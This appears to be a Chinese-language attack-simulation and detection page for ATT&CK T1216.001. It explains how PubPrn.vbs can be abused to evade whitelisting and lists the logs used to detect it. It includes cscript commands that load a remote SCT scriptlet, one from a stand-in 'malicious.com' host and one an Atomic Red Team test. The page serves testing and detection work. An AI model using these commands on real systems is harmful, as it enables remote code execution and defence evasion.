 # T1216.001-签名脚本代理执行-PubPrn

## 描述

`PubPrn.vbs`是Microsoft签名的VisualBasic脚本，位于`C:\Windows\System32\Printing_Admin_Scripts\<语言代码>\`，用于将打印机发布到ActiveDirectory域服务。脚本通过Windows脚本宿主`cscript.exe`或`wscript.exe`执行，典型用法如下：

```cmd
cscript.exe C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com
```

攻击者可滥用`PubPrn.vbs`的`script:`参数，引用远程托管的COM脚本文件（.sct），执行恶意代码。例如：

```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:https://malicious.com/file.sct"
```

此技术利用Microsoft签名脚本绕过应用程序白名单（如AppLocker）和签名验证机制。SCT文件通过COM对象（如`Scriptlet.Typelib`）执行JScript或VBScript，加载恶意Payload。

**限制**：Windows10及以上版本中，`PubPrn.vbs`已更新，限制`script:`参数仅接受`LDAP://`协议，阻止远程HTTP(S)加载。老旧系统（如Windows7、Server2012）仍易受攻击。

## 测试案例

### 测试案例1：PubPrn.vbs加载远程SCT文件

通过已签名的`PubPrn.vbs`脚本加载远程SCT文件，执行恶意Payload。测试使用AtomicRedTeam提供的SCT文件，触发计算器（`calc.exe`）作为示例。

**命令**：
```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"
```

- **说明**：
  - `/b`：以批处理模式运行，抑制弹出窗口。
  - `localhost`：占位参数，不影响执行。
  - `script:`：指定远程SCT文件。
- **权限**：无需提升权限，普通用户可执行。
- **注意**：需根据系统语言调整脚本路径（如`en-US`或`zh-CN`）。

## 检测日志

### 数据来源
- Windows安全日志：
  - 事件ID4688：进程创建，记录`cscript.exe`的执行信息。
- Sysmon日志：
  - 事件ID1：进程创建，包含命令行、哈希值和父进程。
  - 事件ID7：映像加载，记录加载的DLL（如`scrobj.dll`用于SCT执行）。
  - 事件ID10：进程访问，记录脚本触发的子进程。
- 网络监控：
  - 检测`cscript.exe`发起的HTTP(S)请求（如下载SCT文件）。
- 文件监控：
  - 检测非标准路径下的VBS或SCT文件。
